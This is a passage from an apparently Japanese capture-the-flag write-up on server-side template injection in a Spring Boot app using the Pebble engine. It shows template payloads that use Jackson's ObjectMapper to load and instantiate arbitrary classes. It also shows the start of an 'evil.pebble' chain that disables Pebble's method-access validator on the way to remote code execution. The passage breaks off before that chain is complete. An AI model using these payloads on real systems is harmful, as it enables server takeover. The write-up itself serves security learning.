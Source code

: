 ```
nverter, org.springframework.boot.autoconfigure.http.JacksonHttpMessageConvertersConfiguration, org.springframework.boot.autoconfigure.http.HttpMessageConvertersAutoConfiguration, messageConverters, org.springframework.boot.autoconfigure.info.ProjectInfoAutoConfiguration, spring.info-org.springframework.boot.autoconfigure.info.ProjectInfoProperties, org.springframework.boot.autoconfigure.sql.init.SqlInitializationAutoConfiguration, spring.sql.init-org.springframework.boot.autoconfigure.sql.init.SqlInitializationProperties, org.springframework.boot.sql.init.dependency.DatabaseInitializationDependencyConfigurer$DependsOnDatabaseInitializationPostProcessor, org.springframework.boot.autoconfigure.task.TaskSchedulingAutoConfiguration, scheduledBeanLazyInitializationExcludeFilter, taskSchedulerBuilder, spring.task.scheduling-org.springframework.boot.autoconfigure.task.TaskSchedulingProperties, org.springframework.boot.autoconfigure.web.client.RestTemplateAutoConfiguration, restTemplateBuilderConfigurer, restTemplateBuilder, org.springframework.boot.autoconfigure.web.embedded.EmbeddedWebServerFactoryCustomizerAutoConfiguration$TomcatWebServerFactoryCustomizerConfiguration, tomcatWebServerFactoryCustomizer, org.springframework.boot.autoconfigure.web.embedded.EmbeddedWebServerFactoryCustomizerAutoConfiguration, org.springframework.boot.autoconfigure.web.servlet.HttpEncodingAutoConfiguration, characterEncodingFilter, localeCharsetMappingsCustomizer, org.springframework.boot.autoconfigure.web.servlet.MultipartAutoConfiguration, multipartConfigElement, multipartResolver, spring.servlet.multipart-org.springframework.boot.autoconfigure.web.servlet.MultipartProperties, org.springframework.aop.config.internalAutoProxyCreator]
```
`spoinkApplication`、`pebbleEngine`、`pebbleLoader`などがあるのはこの問題ならではである。例えばBean`pebbleLoader`のインスタンスが欲しい場合は
```
{{ beans.get("pebbleLoader") }}
```
で手に入る。

また、RCEをするためには`Class.forName`がほしいなと思い、依存ライブラリ内で検索してひとつひとつ悪用できないか探ってみた:

![](/images/2022/20220801-uiuctf-04.png)

jackson-databindライブラリのTypeFactoryクラスの

- https://github.com/FasterXML/jackson-databind/blob/jackson-databind-2.13.2.2/src/main/java/com/fasterxml/jackson/databind/type/TypeFactory.java#L369

が利用できそうである。
```
{% set stringClass = beans.get("jacksonObjectMapper").getTypeFactory().findClass("java.lang.String") %}
```
で`String`の`Class`インスタンスが手に入る。続いて`Class`インスタンスから元のインスタンスを生成したい。これは
```
{{ beans.get("jacksonObjectMapper").readValue("{}", stringClass) }}
```
で可能。デフォルトコンストラクタが定義されていることが条件になるが、これで好きなクラスのインスタンスを生成できるようになった。

やっぱりJacksonのObjectMapperって便利だな。

### パート4: SSTI to RCE（転）

あとはよしなにRCEまでのGadgetを組み立てれば良い。

試行錯誤したらできた（`evil.pebble`）:
```
{% set accessValidatorClass = beans.get("jacksonObjectMapper").getTypeFactory().findClass("com.mitchellbosecke.pebble.attributes.methodaccess.NoOpMethodAccessValidator") %}
{% set accessValidator =  beans.get("jacksonObjectMapper").readValue("{}", accessValidatorClass) %}

{% set builderClass = beans.get("jacksonObjectMapper").getTypeFactory().findClass("com.mitchellbosecke.pebble.PebbleEngine$Builder") %}
{% set builder =  beans.get("jacksonObjectMapper").readValue("{}", builderClass) %}

{% set engine = builder.methodAccessValidator(accessValidator).build() %}
{% set loader = engine.getLoader() %}
{{ loader.setPrefix("templates") }}
{{ loader.setSuffix("") }}

```